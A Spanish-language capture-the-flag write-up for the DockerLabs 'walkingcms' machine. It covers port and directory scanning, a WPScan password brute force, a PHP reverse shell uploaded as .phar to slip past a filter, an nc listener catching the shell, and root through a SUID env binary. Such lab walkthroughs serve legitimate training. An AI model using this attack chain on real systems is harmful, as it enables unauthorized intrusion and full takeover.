

**Plataforma:** Dockerlabs\
**Sistema Operativo:** Linux

> **Tags:** `Linux` `WordPress` `PHP` `Gobuster` `WPScan` `Brute Force` `File Upload` `Bypass` `RCE` `SUID`

## INSTALACIÓN

Descargamos el `.zip` de la máquina desde DockerLabs a nuestro entorno y seguimos los siguientes pasos.

```bash
unzip walkingcms.zip
```

La máquina ya está descomprimida y solo falta montarla.

```bash
sudo bash auto_deploy.sh walkingcms.tar
```

Info:

```

                            ##        .         
                      ## ## ##       ==         
                   ## ## ## ##      ===         
               /""""""""""""""""\___/ ===       
          ~~~ {~~ ~~~~ ~~~ ~~~~ ~~ ~ /  ===- ~~~
               \______ o          __/           
                 \    \        __/            
                  \____\______/               
                                          
  ___  ____ ____ _  _ ____ ____ _    ____ ___  ____ 
  |  \ |  | |    |_/  |___ |__/ |    |__| |__] [__  
  |__/ |__| |___ | \_ |___ |  \ |___ |  | |__] ___] 
                                         
                                     

Estamos desplegando la máquina vulnerable, espere un momento.

Máquina desplegada, su dirección IP es --> 172.17.0.2

Presiona Ctrl+C cuando termines con la máquina para eliminarla
```

Una vez desplegada, cuando terminemos de hackearla, con un `Ctrl + C` se eliminará automáticamente para que no queden archivos residuales.

## ESCANEO DE PUERTOS

A continuación, realizamos un escaneo general para comprobar qué puertos están abiertos y luego uno más exhaustivo para obtener información relevante sobre los servicios.

```bash
nmap -n -Pn -sS -sV -p- --open --min-rate 5000 172.17.0.2
```

```bash
nmap -n -Pn -sCV -p80 --min-rate 5000 172.17.0.2
```

Info:

```
Starting Nmap 7.95 ( https://nmap.org ) at 2025-09-17 14:10 CEST
Nmap scan report for 172.17.0.2
Host is up (0.000023s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.57 ((Debian))
|_http-title: Apache2 Debian Default Page: It works
|_http-server-header: Apache/2.4.57 (Debian)
MAC Address: 02:42:AC:11:00:02 (Unknown)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.69 seconds
```

Tenemos el puerto `80` abierto.

Al acceder vemos solo la página por defecto de `Apache2`.

## GOBUSTER

Realizamos `fuzzing` de directorios para intentar encontrar rutas o archivos ocultos.

```bash
gobuster dir -u http://172.17.0.2 -w /usr/share/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt -x html,zip,php,txt,bak,sh -b 403,404 -t 60
```

Info:

```
===============================================================
Gobuster v3.8
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2
[+] Method:                  GET
[+] Threads:                 60
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   403,404
[+] User Agent:              gobuster/3.8
[+] Extensions:              sh,html,zip,php,txt,bak
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/index.html           (Status: 200) [Size: 10701]
/wordpress            (Status: 301) [Size: 312] [--> http://172.17.0.2/wordpress/]
Progress: 1041917 / 1543899 (67.49%)
```

Parece que hay un `CMS`; en este caso, `WordPress`.

Vamos a enumerar la versión, los temas y los usuarios con `WPScan`.

## WPSCAN

```bash
wpscan --url http://172.17.0.2/wordpress/ --enumerate u
```

Info:

```
[i] User(s) Identified:

[+] mario
 | Found By: Rss Generator (Passive Detection)
 | Confirmed By:
 |  Wp Json Api (Aggressive Detection)
 |   - http://172.17.0.2/wordpress/index.php/wp-json/wp/v2/users/?per_page=100&page=1
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
```

Hemos encontrado al usuario `mario`.

En cuanto a `plugins`, `temas` y versión no encontramos nada interesante de momento.

Ya que solo tenemos información sobre un usuario, vamos a probar un ataque de `fuerza bruta` con `WPScan`.

```bash
wpscan --url http://172.17.0.2/wordpress --passwords /usr/share/wordlists/rockyou.txt --usernames mario
```

Info:

```
[+] Performing password attack on Xmlrpc against 1 user/s
[SUCCESS] - mario / love                                                                                           
Trying mario / love Time: 00:00:05 <                                       > (390 / 14344782)  0.00%  ETA: ??:??:??

[!] Valid Combinations Found:
 | Username: mario, Password: love
```

Encontramos credenciales de `WordPress` para el usuario `mario` : `love`.

Accedemos mediante el login en http://172.17.0.2/wordpress/wp-admin/.



Una vez dentro encontramos un `plugin` llamado `Theme Editor`, que nos permite modificar, subir o eliminar archivos de un tema.

Aprovechamos esto para subir un script en `PHP` para obtener una `reverse shell`, usando la `php-reverse-shell` de PentestMonkey en GitHub.

Sin embargo, nos indica que no se pueden subir archivos `.php`. Probamos con la extensión `.phar`, que a nivel práctico hace lo mismo.

```bash
cp shell.php shell.phar
```

Ahora nos ha permitido subirlo.

Ponemos un `listener` en nuestra máquina atacante.

```bash
sudo nc -nlvp 4444
```

Ejecutamos el script `.phar` navegando por `HTTP` al directorio donde se encuentra.

```bash
http://172.17.0.2/wordpress/wp-content/themes/twentytwentythree/shell.phar
```

Info:

```
connect to [10.0.4.12] from (UNKNOWN) [172.17.0.2] 60962
Linux 3196cc390eee 6.12.38+kali-amd64 #1 SMP PREEMPT_DYNAMIC Kali 6.12.38-1kali1 (2025-08-12) x86_64 GNU/Linux
 12:43:16 up 41 min,  0 user,  load average: 0.60, 0.65, 1.16
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$
```

Recibimos una `reverse shell` como el usuario `www-data`.

## TTY

Antes de buscar vectores de escalada de privilegios, vamos a hacer un tratamiento de TTY para tener una shell más interactiva, con los siguientes comandos:

```bash
script /dev/null -c bash
```

`ctrl Z`

```bash
stty raw -echo; fg
```

```bash
reset xterm
```

```bash
export TERM=xterm
```

```bash
export BASH=bash
```

## ESCALADA DE PRIVILEGIOS

Comprobamos permisos `sudo` y `SUID`.

```bash
find / -perm -4000 -type f 2>/dev/null
```

Info:

```
/usr/bin/umount
/usr/bin/chsh
/usr/bin/su
/usr/bin/env
/usr/bin/mount
/usr/bin/passwd
/usr/bin/gpasswd
/usr/bin/chfn
/usr/bin/newgrp
```

Vemos que podemos ejecutar el binario `env` con permisos `SUID`, por lo que podemos escalar a `root` de la siguiente manera:

```bash
/usr/bin/env /bin/bash -p
```

Info:

```
bash-5.2# whoami
root
bash-5.2#
```

Ya somos root!
